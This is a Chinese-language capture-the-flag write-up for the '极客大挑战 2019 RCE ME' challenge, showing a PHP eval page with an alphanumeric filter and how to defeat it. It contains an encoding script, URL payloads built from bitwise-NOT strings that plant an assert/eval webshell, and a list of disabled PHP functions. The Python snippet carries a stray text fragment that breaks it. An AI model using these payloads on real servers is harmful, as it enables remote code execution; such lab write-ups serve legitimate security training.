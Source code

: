 # [极客大挑战 2019]RCE ME
![](<./img/Pasted image 20221221195120.png>)

---
```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
	$code=$_GET['code'];
	if(strlen($code)>40){
		die("This is too Long.");
	}
	if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

// ?>
```

朴实无华.jpg

RCE，但是无字母数字QAQ

限制长度的话，估计是要转换成处理另一个参数了

构造目标是`phpinfo();`

感觉异或会太长，通过取反构造

```python
import re
s = input()gao bu lai
for ch in s:
    print('%%%02x' % (~ord(ch) + 256), end='')
```

```shell
$ python tmp.py
phpinfo
%8f%97%8f%96%91%99%90
```

```php
/?code=(~%8f%97%8f%96%91%99%90)();
```
> **disable_functions**
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl

这个怕不是禁得啥都不剩了QAQ

好像还有`assert`

构造`assert(eval($_POST['a']));`

```
assert ==> %9e%8c%8c%9a%8d%8b
eval($_POST['a']) ==> %9a%89%9e%93%d7%db%a0%af%b0%ac%ab%a4%d8%9e%d8%a2%d6
```

```php
/?code=(~%9e%8c%8c%9a%8d%8b)(~%9a%89%9e%93%d7%db%a0%af%b0%ac%ab%a4%d8%9e%d8%a2%d6);
```

`Antsword`连接

![](<./img/Pasted image 20221222114909.png>)

直接用轮子绕过`disable_functions`（嗯，绝对不是`LD_PRELOAD`搞不来～）

![](<./img/Pasted image 20221222120344.png>)
